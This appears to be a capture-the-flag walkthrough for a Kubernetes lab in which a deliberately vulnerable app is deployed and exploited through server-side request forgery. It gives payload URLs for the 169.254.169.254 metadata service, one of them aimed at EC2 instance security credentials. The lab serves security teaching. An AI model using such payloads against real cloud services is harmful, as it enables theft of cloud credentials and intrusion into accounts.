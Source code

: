 # Challenge 18 - K8 Security - SSRF on K8

**Challenge Type:** Breaker

SSRF (Server Side Request Forgery) has become a very popular attack in cloud native environments.  SSRF allows an attacker to trick the server to make an internal call (usually a 169.254, non addressable IP) to an metadata service.  Metadata services contain all sorts of information about currently running cloud instances and it's used to manage, configure and access other cloud services. 

> Instance metadata is data about your instance that you can use to configure or manage the running instance. **Instance metadata can be accessed at the IP address 169.254.169.254 which is a link-local address and is valid only from the instance.**
> 

The IP block `169.254.0.0/16` is reserved for [link-local IPv4 addresses](http://tools.ietf.org/html/rfc3927)

[Retrieve instance metadata](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html)

[Azure Instance Metadata Service for Windows - Azure Virtual Machines](https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service?tabs=windows)

[Storing and retrieving instance metadata](https://cloud.google.com/compute/docs/storing-retrieving-metadata)

In this challenge, we will deploy an app to our cluster that has an SSRF vulnerability.  We will exploit  the vulnerability to access the metadata service and get the Flag

```json
kubectl apply -f challenge18/deployment_starwars_ssrf.yaml
```

Get endpoint of the Service

```json
//get LB address
kubectl get svc
```

```json
//SSRF Payload

http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance
```

![ssrf1](/screenshots/Pasted%20image%2020220309223300.png)

![ssrf2](/screenshots/Pasted%20image%2020220309223316.png)

![ssrf3](/screenshots/Pasted%20image%2020220309223347.png)

```json
//Payload to pull AMI ID
http://169.254.169.254/latest/meta-data/ami-id
```

![ssrf4](/screenshots/Pasted%20image%2020220309223410.png)

> 🏁 Challenge 18 Flag - `k8_ctf{ami-0d70c56e5780922bf}`



```json
//clean up
kubectl delete -f challenge18/deployment_starwars_ssrf.yaml
```